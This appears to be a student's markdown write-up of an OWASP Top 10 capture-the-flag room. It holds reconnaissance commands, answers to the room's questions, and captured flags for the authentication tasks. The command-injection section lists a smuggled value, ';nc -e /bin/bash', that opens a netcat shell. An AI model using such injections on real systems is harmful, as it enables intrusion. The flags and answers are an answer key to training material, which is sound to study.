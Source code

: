 # OWASP Top 10

## [Task 1] Introduction

## [Task 2] Accessing machines

## [Task 3] Daily Prizes

## [Task 4] [Day 1] Injection

## [Task 5] [Day 1] OS Command Injection
- `whoami`
- `;nc -e /bin/bash`

## [Task 6] [Day 1] Command Injection Practical
Commands to try
Linux
- `whoami`
- `id`

- `ifconfig/ip addr`
- `uname -a`
- `ps -ef`

Windows
- `whoami`
- `ver`
- `ipconfig`
- `tasklist`
- `netstat -an`

1. What strange text file is in the website root directory?
  - drpepper.txt
2. How many non-root/non-service/non-daemon users are there?
  - 0
3. What user is this app running as?
  - www-data
4. What is the user's shell set as?
  - /usr/sbin/nologin
5. What version of Ubuntu is running?
  - 18.04.4
6. Print out the MOTD. What favorite beverage is shown?
  - dr pepper

## [Task 7] [Day 2] Broken Authentication

## [Task 8] [Day 2] Broken Authentication Practical
1. What is the flag that you found in darren's account?
  - fe86079416a21a3c99937fea8874b667
2. Now try to do the same trick and see if you can login as arthur.
3. What is the flag that you found in arthur's account?'
  - d9ac0f7db4fda460ac3edeb75d75e16e
